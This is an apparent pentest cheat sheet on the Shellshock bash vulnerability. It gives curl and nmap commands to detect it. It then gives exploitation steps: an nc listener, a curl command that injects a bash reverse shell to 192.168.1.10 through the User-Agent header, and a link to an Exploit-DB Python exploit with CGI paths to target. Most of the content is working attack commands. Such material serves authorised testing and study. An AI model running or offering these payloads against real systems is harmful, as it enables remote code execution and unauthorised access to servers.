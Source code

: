 ## Shellshock Vulnerability

## Identifying Shellshock Vulnerability

### curl

	# curl -v -H "user-agent: () { :; }; echo; /bin/bash -c 'echo 'Vulnerable\ to\ ShellShock''"  http://example.com/cgi-dir/cgiscript
	
### nmap

	# nmap -v -sT -sV -p 80 --script http-shellshock.nse --script-args http-shellshock.uri='/cgi-dir/cgiscript' $IP
	
## Exploiting Shellshock Vulnerability

### curl

	Start listener for reverse shell
	
	# nc -nlvp 443

	# curl -v -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.10/443 0>&1'"  http://example.com/cgi-dir/script
	
### Shellshock Python Exploit

[Exploit Link](https://www.exploit-db.com/exploits/34900)

Edit Exploit	-	Mention Vulnerable Cgi-script Here
	
```bash
pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv"]
```
